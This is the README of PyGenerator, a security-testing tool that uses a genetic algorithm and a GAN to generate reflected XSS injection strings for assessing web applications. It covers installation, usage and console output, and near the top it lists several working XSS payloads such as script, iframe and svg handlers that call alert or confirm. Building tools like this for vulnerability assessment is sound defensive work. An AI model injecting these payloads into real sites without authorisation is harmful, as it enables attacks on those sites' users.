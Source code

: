 # PyGenerator
**Fully automatically generate numerous injection codes for web application assessment.**

---
PyGenerator can fully automatically generate numerous injection codes for detecting web app vulnerabilities.  
Current version is beta. Therefore, it can only generate injection codes of reflected Cross Site Scripting (XSS).  

Following injection codes were generated by PyGenerator.  
```
<script>al¥u0065rt();</script></tr><th/
<iframe/onload=alert();>size=<command
<video><source onerror=javascript:alert();>kind=
<svg/<canvas/<select/onload=confirm(1);>
<object/src=x onload=alert();¥n<script type="text/javascript">
```

 ![overview](./img/pygenerator_overview.png)  

Please refer to this [blog](https://www.mbsd.jp/blog/20170921.html) for detail explanation of pyGenerator.  

## Processing flow
PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

 1. Gather the components of injection codes.  
 2. Create some injection codes using Genetic Algorithm.  
 3. Generate numerous injection codes using Generative Adversarial Networks.  

## Installation
### Step.0 Git clone pyGenerator's repository.
```
PS C:\> git clone https://github.com/13o-bbr-bbq/machine_learning_security.git
```

### Step.1 Install required python packages.
```
PS C:\> cd machine_learning_security/Generator
PS C:\machine_learning_security\Generator> pip -V
pip 10.0.1 from c:\users\itaka\anaconda3\lib\site-packages\pip (python 3.6)
PS C:\machine_learning_security\Generator> pip install -r requirements.txt
```

### Step.2 Get the web driver for selenium.
[!] I use the Google chrome driver in this example.  

You have to download the [chrome driver](http://chromedriver.chromium.org/downloads) for selenium.  
And you have to move downloaded driver file to `web_drivers` directory.  

```
PS C:\machine_learning_security\Generator> mkdir web_drivers
PS C:\machine_learning_security\Generator> mv chromedriver.exe web_drivers
PS C:\machine_learning_security\Generator> ls .\web_drivers


    Directory: C:\machine_learning_security\Generator\web_drivers


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       2018/07/27     12:32        6737408 chromedriver.exe
```

### Step.3 Get html checker (tidy).
[!] I use the `tidy 5.4.0 win64` in this example.  

You have to download the [`tidy 5.4.0 win64`](http://binaries.html-tidy.org/).  
And you have to move tidy directory to pyGenerator root.  

```
PS C:\users\itaka\Downloads> mv tidy-5.4.0-win64 C:\machine_learning_security\Generator\
PS C:\users\itaka\Downloads> ls C:\machine_learning_security\Generator


    Directory: C:\machine_learning_security\Generator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       2018/09/18      6:39                .idea
d-----       2018/09/11     16:10                gene
d-----       2018/09/11     14:55                html
d-----       2018/09/10      7:05                img
d-----       2018/09/14     11:46                result
d-----       2018/09/11     14:28                tidy-5.4.0-win64
d-----       2018/09/10      8:02                web_drivers
d-----       2018/09/13      7:46                weight
d-----       2018/09/13     15:19                __pycache__
-a----       2018/09/13     11:36           1477 config.ini
-a----       2018/09/13     15:15          17510 gan_main.py
-a----       2018/09/11     15:41          14595 ga_main.py
-a----       2018/09/11     13:26           3697 generator.py
-a----       2018/09/11     11:30           4911 util.py
```

## Usage
### Step.0 Execute pyGenerator
```
PS C:\machine_learning_security\Generator> python generator.py
[+] Launched : chrome 68.0.3440.106
[+] 1/10 Create individuals using Genetic Algorithm.
[+] Evaluating html place : body_tag
[+] Create population.
[*] Created individual : [74, 59, 50, 24, 28].
[*] Created individual : [61, 49, 66, 18, 4].
[*] Created individual : [38, 47, 4, 9, 22].

...snip...

[*] Evaluation individual in body_tag: 97/100 in 1 generation
[*] Evaluation individual in body_tag: 98/100 in 1 generation
[*] Evaluation individual in body_tag: 99/100 in 1 generation
[*] Evaluation individual in body_tag: 100/100 in 1 generation
[+] 1 generation result: Min=-1.8, Max=0, Avg=-0.92.
[+] Evaluate individual : 2/1000 generation.
[*] Evaluation individual in body_tag: 1/100 in 2 generation
[*] Evaluation individual in body_tag: 2/100 in 2 generation
```

### Step.1 Check generated injection codes.
```
PS C:\machine_learning_security\Generator> cd result
PS C:\machine_learning_security\Generator\result> ls
```

## Operation check environment
* Hardware  
  * OS: Windows 10  
  * CPU: Intel(R) Core(TM) i7-6500U 2.50GHz  
  * GPU: None  
  * Memory: 8.0GB  
* Software  
  * Python 3.6.0  
  * Jinja2==2.10  
  * Keras==2.1.6  
  * numpy==1.13.3  
  * pandas==0.23.0  
  * selenium==3.14.0  

## Licence
[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Contact us
Isao Takaesu  
takaesu235@gmail.com  
[https://twitter.com/bbr_bbq](https://twitter.com/bbr_bbq)
